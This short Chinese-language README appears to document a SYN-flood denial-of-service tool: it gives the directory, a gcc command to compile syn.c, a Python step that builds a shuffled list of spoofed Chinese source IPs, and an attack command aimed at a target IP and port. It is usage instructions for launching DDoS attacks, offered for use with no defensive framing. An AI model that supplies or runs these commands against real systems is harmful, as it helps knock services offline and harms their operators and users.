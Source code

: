 ### 目录
    cd ddos/syn

### 编译
    gcc syn.c -o syn -pthread

### 生成源ip
    python3.8 main.py && shuf cn_syn_ip.txt -o cn_syn_ip.txt


### 攻击
    ./syn ip port cn_syn_ip.txt 25 60

